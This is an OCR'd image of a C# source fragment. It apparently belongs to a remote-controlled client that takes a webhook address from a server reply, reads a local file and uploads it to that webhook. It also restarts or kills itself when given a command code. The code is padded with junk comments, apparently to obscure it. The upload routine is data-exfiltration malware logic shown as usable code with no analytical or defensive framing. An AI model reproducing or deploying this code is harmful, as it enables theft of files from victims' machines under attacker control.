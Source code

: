                     // 29DK91KJ29K19KG90K91K290GJ91J90GFJ90J1290JF901JF901JF091JF91JF91JF19JFJFJJJJJJK
                    string webhook = ServerReply.Substring(4, ServerReply.Length - 4);
                    // HELLO 0KSDAOKDOPASKDPOSAKDOPASKDOSAKDPOWAKPODSKAPODKAPODKWPOKDOSKAOPW
                    using (HttpClient httpClient = new HttpClient())
                    // OSKDOAK2O3913K190MIODFAMSIMKLWM1PO29091J90DJSKMLKDAMDLKASMDLKASDA
                    {
                        // KSODKAOKDWK93J1903J2918JJJJJJJJJJJJ3I1MKDNSJANDUIWNAIDNSIOANOIWNDDDDDDDDDDDDDD
                        MultipartFormDataContent form = new MultipartFormDataContent();
                        // DADJSAIDOJJJJJJJJJJJJJJJJJJJSADSADSADADSADADASDA
                        var file_bytes = System.IO.File.ReadAllBytes(pth);
                        // DSKAODKWOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOODKASKDOPAKDOAKDPOAKSDOSAKDOASKDPA
                        form.Add(new ByteArrayContent(file_bytes, 0, file_bytes.Length), "Document", "file.png");
                        // LDAPOWPKDOKW193U21U31FJIJSDIOAJDJSAKOJDOIJISAJDIOSJAIODJSAODJASOIDJA90999999999999999999
                        httpClient.PostAsync(webhook, form).Wait();
                        // HELP-DSOADJKSOADKOPD- sTEAM-cODE: DPHAJ-PPOQG-LPDOA-GDVFJ
                        httpClient.Dispose();
                        // DSKAOKDOAKDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD
                    }
                    // KDOOOOOAOKSODKAPOKWPODKSPOKAPOWKDOPKSOPAKDDDDDDDDDDDDDDDDDDDDDDD
                }
                // LOSKAOP LMFAO ~ chinese hacker
                try
                // i DMMMMMMMMMMMMMMMMMMMMMMMM
                {
                    // KSOAKDDDDDDDDDDDDDDDDDOSAKKKKKKKKKKKOSDKAODKAO
                    ServerReply = send(ClientReply);
                    // SDLAPDLAPKWOPDKOPSAKPWKDOKSAPOKWPODKSPOOOOOOOOOOOOOOOO
                    if (ServerReply == "E:00xFFAQQ4141")
                    // iM a fANCY bITCH
                    {
                        // ----------------------------------------------
                        await Task.Delay(10000);
                        // I983291830921839021830918309218390128312983912789
                        System.Windows.Forms.Application.Restart();
                        // 32879074693859438593485093485903485903485903
                        var prc = Process.GetCurrentProcess();
                        // 439204832948239483290483290482390482309483209482309483209
                        prc.Kill();
                        // 329137573428742748932742374823748923749823478247328472389472
                    }
                    // 28391389128390128309183912839012839012839839012389038129038219381
                }
                // 893218392819381209389021830921830218 309218309128309128392183902109321
                catch
                // 291839128309812382888888888888888888888888888821903829108301232132131
                {
                    // 238193088888888888192803183-069423093012480932849328490283492842
                    clientSocket.Close();
                    // 3239183918290 382109381290381209382190 821093 821093 821093 8210 3821
                    var prc = Process.GetCurrentProcess();
                    // 2313 2183 92183 092183 921 83021 83091 830213 82091 83129 380192 3812093 812093 81
                    prc.Kill();
                    // 32193891583298 45932849328493284903 284928498294 82948 2948 392 48329 849023
                }
                // 8928319830213821222222222222222
            }
            // 29381983913829108568902MCKSDMAKDMSAODMAIMWD
        }
